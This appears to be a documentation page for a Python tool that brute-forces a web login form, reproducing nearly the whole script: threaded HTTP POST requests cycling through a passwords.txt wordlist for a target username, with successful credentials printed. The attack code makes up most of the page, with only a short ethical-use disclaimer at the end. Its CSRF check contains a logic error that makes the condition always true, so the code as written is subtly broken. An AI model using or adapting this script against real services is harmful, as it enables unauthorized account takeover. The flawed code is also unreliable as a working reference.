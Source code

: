 # BruteForcing Class Documentation
This Python code attempts to brute-force a login page by iterating through a list of passwords, trying each one to gain access to a web service using HTTP POST requests. It uses threading to attempt multiple passwords in parallel, improving speed.

## Code Documentation
### Imports:

'''
Code kopieren
import threading
import requests
import time
import sys
'''

- threading: Enables multi-threaded execution, allowing multiple password attempts concurrently.
- requests: Handles HTTP requests to the login page.
- time: Adds delays for UX elements like displaying the banner.
- sys: Allows control over system-level operations, including output and script termination.
### BruteForcing Class
The BruteForcing class is responsible for handling the login attempts and detecting successful login credentials.

Attributes:

- url: The target URL for login attempts.
- username: Username to be tested against each password.
- error_message: Message displayed by the server upon an unsuccessful login attempt.

Initialization Method:

'''
def __init__(self, url, username, error_message):
    self.url = url
    self.username = username
    self.error_message = error_message

    for run in banner:
        sys.stdout.write(run)
        sys.stdout.flush()
        time.sleep(0.02)
'''

- Initializes the class with url, username, and error_message.
- Displays a banner animation by printing each character sequentially.

crack Method:

'''
def crack(self, password):
    data_dict = {"LogInID": self.username, "Password": password, "Log In": "submit"}
    response = requests.post(self.url, data=data_dict)
    if self.error_message in str(response.content):
        return False
    elif "CSRF" or "csrf" in str(response.content):
        print("CSRF Token Detected!! BruteF0rce Not Working This Website.")
        sys.exit()
    else:
        print("Username: ---> " + self.username)
        print("Password: ---> " + password)
        return True
'''

- Sends a POST request to the URL using requests.post with username and password.
- Checks for error_message in the response content to identify failed attempts.
- If "CSRF" appears in the response, the function assumes the site uses CSRF protection, exits, and halts the attack.
- On successful login, displays the valid credentials and stops further attempts.

### Helper Function: crack_passwords

'''
def crack_passwords(passwords, cracker):
    count = 0
    for password in passwords:
        count += 1
        password = password.strip()
        print("Trying Password: {} Time For => {}".format(count, password))
        if cracker.crack(password):
            return
'''

- Iterates over a list of passwords, incrementing a counter to track attempts.
- Passes each password to the crack method to test if it’s correct.
- Stops iterating when a successful login attempt is found.

### Main Function: main

'''
def main():
    url = input("Enter Target Url: ")
    username = input("Enter Target Username: ")
    error = input("Enter Wrong Password Error Message: ")
    cracker = BruteForcing(url, username, error)

    with open("passwords.txt", "r") as f:
        chunk_size = 1000
        while True:
            passwords = f.readlines(chunk_size)
            if not passwords:
                break
            t = threading.Thread(target=crack_passwords, args=(passwords, cracker))
            t.start()
'''

- url: The target URL for the brute-force attack.
- username: Username to test with each password.
- error: Error message indicating a failed login attempt.
- Initializes an instance of BruteForcing with user inputs.
- Reads the passwords.txt file in chunks, where each chunk represents a batch of passwords to test.
- Creates and starts a new thread for each password chunk to maximize parallel execution.

### Execution Block

'''
if __name__ == '__main__':
    banner = """ 
                       Checking the Server !!        
        [+]█████████████████████████████████████████████████[+]
"""
    print(banner)
    main()
'''

- Displays a banner before starting the brute-forcing attempts.
- Calls the main function to begin execution.

## Note on Ethical Use
IMPORTANT: Brute-force attacks are illegal and unethical when conducted without explicit permission. The code here is for educational purposes, to understand the mechanics of threaded brute-force attack logic. Always obtain permission from system owners before attempting any security tests.

For legitimate security testing, consider alternatives like password managers or dedicated penetration testing frameworks such as OWASP ZAP or Burp Suite.
